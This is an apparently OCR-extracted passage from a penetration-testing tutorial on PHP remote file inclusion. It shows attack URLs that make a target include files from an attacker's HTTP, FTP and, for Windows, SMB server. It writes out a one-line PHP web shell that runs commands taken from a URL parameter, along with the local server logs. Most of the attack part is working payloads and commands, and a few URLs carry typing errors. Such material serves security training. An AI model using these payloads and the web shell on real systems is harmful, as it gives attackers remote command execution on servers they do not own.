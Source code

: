 `http://example.com/index.php?language=http://localhost:8080/file`

If the server tried including the file at `http://localhost:8080/file` but failed. Looking at the HTTP server, a request was logged.

```
python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/ )
127.0.0.1 - - [03/Jan/2020 07:15:50] code 404, message File not found
127.0.0.1 - - [03/Jan/2020 07:15:50] "GET /file HTTP/1.0" 404 -
```

Let's try including a web shell from our server and executing commands. First, create a file named shell.php with the following contents:

`php code: <?php system($_GET['cmd']); ?>`

`http://example.com/index.php?language=http://localhost:8080/shell.php&cmd-id`

if the file was included, and then we can executed id successfully. In case the server appends the .php extension automatically, we can omit the .php at the end.

Similar to the HTTP protocol, even the FTP protocol can be used to access remote files. Python's pyftpdlib library can be used to test this locally.

```
 python -m pyftpdlib -p 21

[I 2020-01-03 07:36:00] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<

[I 2020-01-03 07:36:00] concurrency model: async
[I 2020-01-03 07:36:00] masquerade (NAT) address: None
[I 2020-01-03 07:36:00] passive ports: None
```
Next, use the `ftp://` scheme to access `shell.php` present in the FTP root.

`http://example.com/index.php?language=ftp://localhost/shell.php&cmd-id`

By default, PHP tries to authenticate as an anonymous user. If the server needs authentication, then the credentials can be specified in the following way:

`http://example.com//index.php?language=ftp://user:pass@localhost/shell.php&cmd=id`

Windows
=======

When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol. This is because Windows treats files
on remote SMB servers as normal files, which can be referenced directly with a UNC path. We can spin up an SMB server using Impacket's smbserver.py, which allows 
anonymous authentication by default.

```
 smbserver.py -smb2support share $(pwd)

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed


```
